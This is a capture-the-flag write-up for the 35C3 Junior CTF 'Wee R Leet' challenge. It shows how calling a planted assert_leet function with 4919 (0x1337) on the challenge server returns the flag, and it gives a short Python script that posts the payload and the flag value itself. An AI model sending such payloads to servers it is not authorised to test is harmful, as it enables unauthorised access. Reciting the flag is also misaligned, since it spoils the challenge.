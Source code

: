 # 35C3 Junior CTF – Wee R Leet

* **Category:** Misc
* **Points:** variable

## Challenge

> Somebody forgot a useless assert function in the interpreter somewhere. In our agile development lifecycle somebody added the function early on to prove it's possible. Wev've only heared stories but apparently you can trigger it from Wee and it behaves differently for some "leet" input(?) What a joker. We will address this issue over the next few sprints. Hopefully it doesn't do any harm in the meantime.
>
> http://35.207.189.79/
>
> Difficulty estimate: Easy
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

The *Wee* interpreter source code can be found here: `http://35.207.189.79/weelang/weeterpreter.ts`.

The endpoint that can be used to run *Wee* code is the following.

```
http://35.207.189.79/wee/run
```

The assertion that must be exploited is the following.

```Typescript
externals.addFunction(
   "assert_leet",
   [{name: "maybe_leet", type: compiler.NumberType}], compiler.StringType,
   false,
   (maybe_leet: number) => maybe_leet !== 0x1337 ? "WEE AIN'T LEET" : flags.WEE_R_LEET
)
```

`0x1337` is `4919` in decimal. Hence, payload is the following.

```
alert(assert_leet(4919))
```

The following Python script can be used to send the payload.

```Python
import requests
import json

url = "http://35.207.189.79/wee/run"
data_structure = """{{ "code": {} }}"""
data_content = """alert(assert_leet(4919))"""

data_content_to_send = json.dumps(data_content)
data_to_send = data_structure.format(data_content_to_send)
print "[*] Payload: '{}'.".format(data_to_send)
response = requests.post(url, data=data_to_send)
print "[*] Response: '{}'.".format(response.text)
```

The flag is the following.

```
35C3_HELLO_WEE_LI77LE_WORLD
```